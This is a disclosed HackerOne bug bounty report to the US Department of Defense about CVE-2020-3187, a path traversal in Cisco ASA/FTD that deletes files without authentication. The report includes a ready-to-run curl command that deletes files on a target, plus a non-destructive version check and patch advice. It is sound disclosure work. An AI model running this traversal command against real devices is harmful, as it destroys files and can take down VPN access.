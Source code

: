 # https://██████ vulnerable to CVE-2020-3187 - Unauthenticated arbitrary file deletion in Cisco ASA/FTD

## Report Details
- **Report ID**: 1031437
- **URL**: https://hackerone.com/reports/1031437
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-11T09:18:46.285Z
- **Disclosed**: 2020-11-23T17:58:49.254Z

## Reporter
- **Username**: themastersunil
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi @U.S. Dept Of Defense, I found a host <https://██████> which is running on the web services interface of Cisco ASA/FTD and it is vulnerable to CVE-2020-3187 - Unauthenticated arbitrary file deletion in Cisco ASA/FTD. An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences. An exploit could allow the attacker to view or delete arbitrary files on the targeted system. When the device is reloaded after the exploitation of this vulnerability, any files that were deleted are restored. The attacker can only view and delete files within the web services file system.

**Proof of Concept:**

Now we know that in CVE-2020-3187 - Unauthenticated arbitrary file deletion in Cisco ASA/FTD. This allow the attacker to view or delete arbitrary files on the targeted system
In this we can delete the files. For example the logo file present on the server at <https://████████/+CSCOU+/csco_logo.gif> can be deleted by the following steps.

This can be done by sending a curl request as : curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" <https://███/+CSCOE+/session_password.html>

 1. To delete this just hit the following command on your terminals.
     `curl -H “Cookie: token=../+CSCOU+/csco_logo.gif” https://█████████/+CSCOE+/session_password.html`

     If that did not work because sometimes logo.gif/png has permission issues so try this <https://█████/+CSCOE+/blank.html>

 2. You can also delete the file "`/+CSCOE+/blank.html`" (an empty HTML file), as it might be a problem with the permission of the custom logo file sometimes logo.gif has permission issue so we might not be able to delete but we can delete other files

Warning : This can lead to a denial of service (DOS) on the VPN by deleting the lua source code files from the file system, which will break the WebVPN interface until the device is rebooted.

Now i haven't deleted the logo file because i didn't wanted to cause any damage so i used another method which can help us confirming that target is vulnerable to this without causing damage and for that just check if `/+CSCOE+/session_password.html` endpoint exists, and it gives "200 OK" status, then it should be vulnerable because this affected endpoint has been removed from the patched versions.

I sent a curl request to check and it gave 200 ok as shown below:
`/+CSCOE+/session_password.html -> 200 = Vulnerable`
`/+CSCOE+/session_password.html -> 404 = Patched`

**Mitigation/Remediation Actions:**

Upgrade the ASA software version per the referenced advisory. This advisory is available at the following link:
<https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-path-JE3azWw43>

**Reference:**

<https://twitter.com/aboul3la/status/1286809567989575685>
<https://medium.com/@parasarora06/hunting-for-cve-2020-3187-2020-3452-9f0dcc66f4d8>
<https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-path-JE3azWw43>
<http://packetstormsecurity.com/files/158648/Cisco-Adaptive-Security-Appliance-Software-9.7-Arbitrary-File-Deletion.html>

## Impact

High - This vulnerability allows the attacker to delete files within the web services file system.

## Attachments
No attachments
